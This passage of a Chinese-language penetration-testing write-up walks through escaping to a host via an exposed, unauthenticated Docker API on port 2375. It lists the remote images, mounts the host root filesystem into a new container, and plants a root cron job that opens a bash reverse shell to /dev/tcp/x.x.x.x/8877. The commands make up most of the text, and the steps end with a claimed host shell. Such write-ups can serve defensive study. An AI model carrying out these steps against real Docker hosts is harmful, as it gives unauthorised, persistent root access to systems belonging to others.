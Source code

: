 2、查看宿主机 docker 镜像信息

```
docker -H tcp://x.x.x.x:2375 images
```

![](images/format,png-163410875271324)

3、启动一个容器并将宿主机根目录挂在到容器的 nuoyan 目录

```
docker -H tcp://x.x.x.x:2375 run -it -v /:/nuoyan adafef2e596e /bin/bash 
```

![](images/format,png.jpeg)

4、写计划任务反弹 shell

```
echo '* * * * * bash -i >& /dev/tcp/x.x.x.x/8877 0>&1' >> /nuoyan/var/spool/cron/root
```

![](images/format,png-163410875271326)

5、成功获取到宿主机 shell，逃逸成功。

![](images/format,png.jpeg)
